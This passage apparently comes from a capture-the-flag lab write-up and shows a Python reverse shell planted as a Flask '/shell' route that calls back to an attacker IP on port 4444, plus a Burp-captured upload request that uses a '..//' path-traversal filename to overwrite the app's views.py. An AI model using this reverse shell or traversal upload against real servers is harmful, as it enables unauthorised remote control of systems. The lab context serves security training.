 
I modified it to add a new `/shell` endpoint. 

```bash
@app.route('/shell')
def shell():
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.143",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])

    return render_template('index.html')
```


Then I uploaded the modified file. I used Burp to modify the filename and overwrite the code that was serving the application.

```http
POST /upcloud HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------246307162433279561281974372034
Content-Length: 1447
Origin: http://target.htb
Connection: close
Referer: http://target.htb/upcloud
Cookie: __wzdd1fca5944e3e586a8caa=1654426481|047d61f17eac
Upgrade-Insecure-Requests: 1

-----------------------------246307162433279561281974372034
Content-Disposition: form-data; name="file"; filename="..//app/app/views.py"
Content-Type: text/x-python

import socket,subprocess,os

...
```

Lastly, I started a netcat listener and navigated to http://target.htb/shell. 